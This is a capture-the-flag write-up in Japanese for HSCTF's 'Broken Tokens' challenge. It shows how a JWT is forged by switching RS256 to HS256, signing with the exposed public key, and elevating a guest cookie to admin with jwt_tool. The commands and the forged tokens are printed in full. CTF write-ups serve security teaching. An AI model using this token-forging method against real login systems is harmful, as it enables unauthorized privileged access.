 # Broken Tokens:Web Exploitation:100pts
I made a login page, is it really secure?  
[https://broken-tokens.web.hsctf.com/](https://broken-tokens.web.hsctf.com)  
Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.  

# Solution
アクセスするとログインフォームとpublickey.pemがある。  
Web Portal Login  
[site.png](site/site.png)  
何も入力せずログインするとguestとしてログイン成功している。  
ところでcookieに以下のような値が入っていた。  
```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```
JWTだ。  
[JSON Web Tokens - jwt.io](https://jwt.io)で中身を見ると以下のようであった。  
HEADER:ALGORITHM & TOKEN TYPE  
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
```
PAYLOAD:DATA   
```json
{
  "auth": "guest"
}
```
adminとすればいいようだ。  
[The JSON Web Token Toolkit](https://github.com/ticarpi/jwt_tool)を使う。  
Tamper with JWT data (multiple signing options)でよい。  
一部の出力は省略する。  
```bash
$ ls
LICENSE  README.md  jwt_tool.py  publickey.pem
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
> 1
> 0
> 1
> admin
> 0
> 5
> publickey.pem
> 1

Your new forged token:
[+] URL safe: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
[+] Standard: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM+1Sz+SzKvad4
```
改竄できた以下のJWTをセットするとflagが得られる。  
```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM+1Sz+SzKvad4
```
flag  
[flag.png](site/flag.png)  

## flag{1n53cur3_tok3n5_5474212}